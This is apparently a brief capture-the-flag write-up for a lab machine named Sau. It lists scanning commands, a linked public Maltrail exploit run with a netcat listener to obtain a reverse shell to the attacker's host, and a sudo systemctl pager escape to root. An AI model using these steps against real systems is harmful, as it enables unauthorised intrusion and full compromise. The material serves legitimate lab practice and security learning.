 # ****10.10.11.224 - Sau****

```bash
rustscan -a 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/357c3476-3b33-4a07-85e9-ef92ae057edd)

```bash
nmap -A -p 22,55555 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/3af5ddde-27c9-4e00-a834-936613cc6841)

```bash
gobuster dir -u [http://sau.htb:55555](http://sau.htb:55555/) -w directory-list-2.3-small.txt -t 100 --no-error -b 400,404
```

![image](https://github.com/lufffe/Writeups/assets/90646635/f457fc71-4732-4e6a-bf55-3f1dcdf6e84c)

http://sau.htb:55555/web

![image](https://github.com/lufffe/Writeups/assets/90646635/66832557-c07f-4a20-87c3-69ac57d3880c)

![image](https://github.com/lufffe/Writeups/assets/90646635/4614fdd3-0922-4c4e-abea-b01c1da57303)

![image](https://github.com/lufffe/Writeups/assets/90646635/634e7000-e669-4078-bf87-f8de21d859f5)

https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
nc -lnvp 4455
```

```bash
python exploit.py http://10.10.11.224:55555 10.10.14.8 4455
```

```bash
cat /home/puma/user.txt
```

```bash
sudo -l
```

![image](https://github.com/lufffe/Writeups/assets/90646635/9025966b-3a09-49dc-a8c4-c20c7b870a4a)

```bash
sudo /usr/bin/systemctl status trail.service
```

![image](https://github.com/lufffe/Writeups/assets/90646635/5e0c2624-5350-4ca3-849a-3100a9bfdd25)

```bash
!sh
```

![image](https://github.com/lufffe/Writeups/assets/90646635/7f2633cd-e45d-4cd4-8e8e-03308804b7fb)

```bash
cat /root/root.txt
```
